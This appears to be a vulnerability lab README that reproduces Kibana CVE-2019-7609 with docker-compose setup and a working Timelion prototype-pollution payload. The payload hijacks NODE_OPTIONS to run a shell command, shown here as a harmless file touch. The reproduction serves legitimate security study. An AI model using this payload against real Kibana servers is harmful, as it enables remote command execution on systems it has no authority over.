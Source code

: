 # Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References: 

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

Before you can setup the environment, you need to change `vm.max_map_count` to greater than 262144 in host server (not in the docker container):

```
sysctl -w vm.max_map_count=262144
```

Then, start the Kibana 6.5.4 and Elasticsearch 6.8.6:

```
docker-compose up -d
```

## Vulnerability Reproduce

After started the environment, the Kibana is listening on `http://your-ip:5106`. The prototype pollution is happens in Timeline visualizer, fill in following payload here:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

Then, visit "Canvas" page to trigger the command `/bin/touch /tmp/success`. The file `/tmp/success` is created successfully:

![](2.png)
